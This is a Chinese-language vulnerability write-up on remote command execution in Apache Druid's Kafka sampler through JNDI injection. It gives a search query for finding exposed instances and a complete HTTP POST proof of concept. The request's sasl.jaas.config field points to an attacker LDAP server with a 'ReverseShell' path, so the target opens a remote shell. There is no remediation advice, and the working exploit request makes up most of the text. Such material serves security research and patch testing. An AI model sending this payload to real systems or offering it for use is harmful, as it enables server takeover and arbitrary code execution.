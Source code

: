 # Apache Druid sampler kafka 远程命令执行漏洞

## 漏洞描述

Apache Druid 支持从 Kafka 加载数据，恶意的攻击者可通过修改 Kafka 连接配置属性，从而进一步触发 JNDI 注入攻击，最终攻击者可在服务端执行任意恶意代码，获取系统服务权限。

## 漏洞影响

<a-checkbox checked>Apache Druid </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title_string = "Apache Druid"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1682919141181-6c39b2c9-e803-4fa3-af91-4c933f863780.png)

验证POC

```python
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 1392
Content-Type: application/json
Accept-Encoding: gzip, deflate
Connection: close  

{
    "type":"kafka",
    "spec":{
            "type":"kafka",
            "ioConfig":{
                "type":"kafka",
                "consumerProperties":{
                    "bootstrap.servers":"6.6.6.6:9092",
                    "sasl.mechanism":"SCRAM-SHA-256",
                    "security.protocol":"SASL_SSL",
                    "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://xxx.xxx.xxx.xxx:1389/Basic/ReverseShell/xxx.xxx.xxx.xxx/8373\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
                },
                "topic":"any",
                "useEarliestOffset":true,
                "inputFormat":{
                    "type":"regex",
                    "pattern":"([\\s\\S]*)",
                    "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                    "columns":[
                            "raw"
                    ]
                }
            },
            "dataSchema":{
                "dataSource":"sample",
                "timestampSpec":{
                    "column":"!!!_no_such_column_!!!",
                    "missingValue":"1970-01-01T00:00:00Z"
                },
                "dimensionsSpec":{        

                },
                "granularitySpec":{
                    "rollup":false
                }
            },
            "tuningConfig":{
                "type":"kafka"
            }
    },
    "samplerConfig":{
            "numRows":500,
            "timeoutMs":15000
    }
}
```

![img](../../../.vuepress/public/img/1682919248408-90090556-799e-4a7a-9d54-d6ef94541686.png)